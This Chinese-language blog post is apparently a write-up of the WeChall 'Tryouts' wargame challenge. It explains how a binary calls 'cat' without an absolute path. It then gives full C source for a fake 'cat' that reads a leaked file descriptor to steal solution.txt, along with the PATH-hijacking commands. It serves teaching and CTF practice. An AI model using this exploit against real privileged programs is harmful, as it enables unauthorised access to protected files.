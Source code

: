 ```yaml
---
title: Tryouts
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/18/tryouts
  - /writeup/2014/06/18/tryouts/
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tryouts/index.php>  
用IDA反汇编，基本上了解了题意。最初的想法比较直接：从随机数下手。但根据后来在网上搜到的情况，`/dev/urandom`虽然不是那么随机，但熵基本上还是足够的

仔细阅读反汇编得到的C代码，发现了以下不自然的地方：

{% highlight c %}
snprintf((char *)&v16, 0x200u, "cat %s/seed > /dev/urandom", v20->pw_dir);
{% endhighlight %}
    
这里直接用`cat`而没用绝对路径，也就是说我们可以在家目录下创建一个新的可执行文件，名字也叫`cat`，然后将`$HOME`放在`$PATH`的最前面，那么这个`cat`就会被执行

另外，solution.txt的file descriptor到了最后的最后才关闭，甚至在`/dev/urandom`后，这点太不自然了，按说读完了solution.txt就已经完全不需要这个描述符了

于是查资料，子进程是可以继承父进程的文件描述符（其实以前好像见过类似的题目）：
    
> The child inherits copies of the parent&#8217;s set of open file descriptors. Each file descriptor in the child refers to the same open file description (see open(2)) as the corresponding file descriptor in the parent. This means that the two descriptors share open file status flags, current file offset, and signal-driven I/O attributes (see the description of F\_SETOWN and F\_SETSIG in fcntl(2)). 
    
> By default, file descriptors remain open across an execve(). File descriptors that are marked close-on-exec are closed; see the description of FD_CLOEXEC in fcntl(2). 
    
rsolution.txt的描述符应该是3，因为0，1，2已经被占用。于是我们写cat.c，lseek到文件开始处，再读16个字符
    
{% highlight c %}
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}
{% endhighlight %}
    
将其编译  
`$ gcc -m32 cat.c -o cat`  
然后设置路径  
`$ export PATH=$HOME:$PATH`  
这样就会把solution.txt的内容写到文件seed里面了
